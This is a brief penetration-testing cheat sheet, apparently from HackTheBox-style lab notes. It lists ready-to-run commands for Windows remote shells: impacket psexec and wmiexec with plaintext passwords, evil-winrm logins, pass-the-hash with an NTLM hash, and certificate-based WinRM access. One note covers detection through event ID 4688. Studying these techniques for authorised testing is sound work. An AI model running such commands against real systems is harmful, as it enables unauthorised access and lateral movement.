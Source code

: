 ## psexec
```powershell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 
```

## wmiexec
```powershell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: A new process has been created, they will see a new process created to spawn cmd.exe and issue a command. This isn't always malicious activity since many organizations utilize WMI to administer computers, but it can be a tip-off in an investigation

## evil-winrm
```bash
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

# Pass-The-Hash

## psexec
```bash
psexec administrator@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

# SSL

## evil-winrm
```bash
evil-winrm -S -i 10.10.10.103 -u amanda -p Ashare1972 -c cert.cer -k amanda.key 
```
